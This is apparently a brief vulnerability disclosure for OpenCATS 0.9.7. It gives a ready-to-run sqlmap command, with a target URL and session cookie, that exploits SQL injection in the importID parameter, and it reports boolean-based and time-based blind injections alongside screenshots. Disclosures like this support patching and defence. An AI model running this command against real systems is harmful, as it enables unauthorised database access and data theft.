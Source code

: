 # Opencats-0.9.7-sql injection in importID

## sqlmap-POC
```
sqlmap -u "http://192.168.2.153/src/opencats/index.php?m=import&a=viewerrors&importID=1" --cookie="CATS=3vuotomfflasp6drb4vtimpkqc" --current-db  -p "importID" --flush-session
```

## Result-Show
It exists two sql injections, one is boolean-based blind injection, the other is time-based blind injection.

![image](https://user-images.githubusercontent.com/71068573/209432445-ae54e3c9-83de-424e-9037-dbac2efba773.png)

![image](https://user-images.githubusercontent.com/71068573/209432499-4e6f1fa2-1754-43ca-8dab-698683aa75e8.png)

![image](https://user-images.githubusercontent.com/71068573/209432511-88339329-523c-4fa0-ae34-fee2747c5e36.png)
